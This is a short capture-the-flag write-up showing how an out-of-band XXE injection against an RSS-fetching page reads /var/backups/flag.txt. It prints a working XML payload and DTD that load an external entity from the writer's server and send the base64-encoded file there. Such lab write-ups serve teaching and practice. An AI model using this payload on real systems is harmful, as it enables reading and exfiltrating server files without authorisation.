

# Flag 09

We are presented with page that pullls an rss feed.




Let try to play with this parameter in burp.


If we try to read a file in the webroot it gives an error indicating that it's expecting a xml file.


At this point, it's obvious that we are going to need to perform an out-of-band XXE injection. And they gave us hint that the flag is in **/var/backups/**.

I created a xml file that's going to declare a **DTD** file as an entity.
Inside the DTD we are going to declare another entity that will represents the file we want to read (encoded in base64) and send it to my own server.

Content of xml file:
```
<?xml version="1.0" encoding="utf-8"?>

<!DOCTYPE XXE [

<!ENTITY % EvilDTD SYSTEM "http://10.8.0.58/oob.dtd">

%EvilDTD;

%param1;

%exfil;

]>

<login>
 oi
</login>
```

Content of DTD file:
```
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=/var/backups/flag.txt">
<!ENTITY % param1 "<!ENTITY &#x25; exfil SYSTEM 'http://10.8.0.58:5000/?p=%data;'>">
```

We fire up 2 python servers and let the magic happen


We just have to base64 decode it and voilà.
